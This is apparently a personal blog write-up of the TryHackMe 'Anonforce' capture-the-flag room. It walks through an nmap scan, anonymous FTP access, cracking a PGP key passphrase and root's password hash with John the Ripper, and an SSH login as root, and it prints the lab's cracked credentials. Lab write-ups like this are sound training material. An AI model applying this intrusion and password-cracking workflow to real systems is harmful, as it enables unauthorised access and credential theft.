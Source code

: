 ```yaml
---
title: TryHackMe - Anonforce
author: Bonface
date: 2024-01-10 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - ftp
  - ssh
  - gpg
  - john
  - crack
image:
  path: /assets/img/try%20hack%20me%20/Easy/Anonforce/0.jpeg
  alt: Anonforce
---
```


# Anonforce  

boot2root machine for FIT and bsides guatemala CTF  

# Tasks  
Read user.txt and root.txt  

# nmap

```sh
nmap -sV -sC -v 10.10.59.93 | tee nmap.txt
```

```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 bin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 boot
| drwxr-xr-x 17 0 0
3700 Feb 08 07:18 dev
| drwxr-xr-x 85 0 0
4096 Aug 13 2019 etc
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 home
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x 19 0 0
4096 Aug 11 2019 lib
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 lib64
| drwx------ 2 0 0
16384 Aug 11 2019 lost+found
| drwxr-xr-x 4 0 0
4096 Aug 11 2019 media
| drwxr-xr-x 2 0 0
4096 Feb 26 2019 mnt
| drwxrwxrwx 2 1000 1000
4096 Aug 11 2019 notread [NSE: writeable]
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 opt
| dr-xr-xr-x 94 0 0
0 Feb 08 07:18 proc
| drwx------ 3 0 0
4096 Aug 11 2019 root
| drwxr-xr-x 18 0 0
540 Feb 08 07:18 run
| drwxr-xr-x 2 0 0
12288 Aug 11 2019 sbin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 srv
| dr-xr-xr-x 13 0 0
0 Feb 08 07:18 sys
| drwxrwxrwt 9 0 0
4096 Feb 08 07:18 tmp [NSE: writeable]
| drwxr-xr-x 10 0 0
4096 Aug 11 2019 usr
| drwxr-xr-x 11 0 0
4096 Aug 11 2019 var
| lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
|_lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
1/9| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
| 256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_ 256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Two ports are open  
- 21 = ftp  
- 22 = ssh  

ftp seems to lack log in credentials so will start with that one.  

# ftp_21
```sh
ftp anonymous@10.10.59.93
```

Used default credentials `anonymous:anonymous`  
![](../assets/img/try_hack_me/Easy/Anonforce/1.png)  
Enumerating i got the user flag .  

![](../assets/img/try_hack_me/Easy/Anonforce/2.png)

# Privilege Escalation

![](../assets/img/try_hack_me/Easy/Anonforce/2.png)

- We can not view or write any thing on the root directory
- But there is a fishy directory with unique permissions.

```sh
cd notread
mget *
```
![](../assets/img/try_hack_me/Easy/Anonforce/4.png)  
one file is an image while the other has some guddies  
![](../assets/img/try_hack_me/Easy/Anonforce/5.png)

Now we have 
- open port 22 = ssh
- id_rsa key

Lacking a valid user name .
run search_sploit to see if the ssh has an exploit
![](../assets/img/try_hack_me/Easy/Anonforce/6.png)

- Downloaded the exploit but was unable to use it.
- Did some research.

We got two files from ftp :
- backup.pgp  
- private.asc  

We have an encrypted `backup.pgp` file, and very likely a private key file that we can use to decrypt it.  
First, what we need to do is import the private key into our keyring (key management database) of the PGP application.  

```sh
gpg --import private.asc
```
![](../assets/img/try_hack_me/Easy/Anonforce/7.png)

We need to crack the passphrase in order to import it into the key ring.  
We can use `John the Ripper` password-cracking tool for this.  

```sh
 gpg2john private.asc > privatehash.txt
```

Now we can run john to crack the hash using the famous `rockyou.txt` dictionary.  

```sh
 john privatehash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![](../assets/img/try_hack_me/Easy/Anonforce/8.png)

Now that we have the passphrase for the private key, we can import it into the keyring and decrypt the backup.pgp file.  

passphrase = `xbox360`

```sh
gpg --import private.asc

gpg --decrypt backup.pgp
```
![](../assets/img/try_hack_me/Easy/Anonforce/9.png)
We will get a backup of the passwd file, that includes the password hash of root and melodias users.  
![](../assets/img/try_hack_me/Easy/Anonforce/10.png)

Now we crack the passwd file using john.
![](../assets/img/try_hack_me/Easy/Anonforce/11.png)
![](../assets/img/try_hack_me/Easy/Anonforce/12.png)

  
- username = root  
- password = hikari  

```sh
 ssh root@10.10.59.93
 ```  
![](../assets/img/try_hack_me/Easy/Anonforce/13.png)
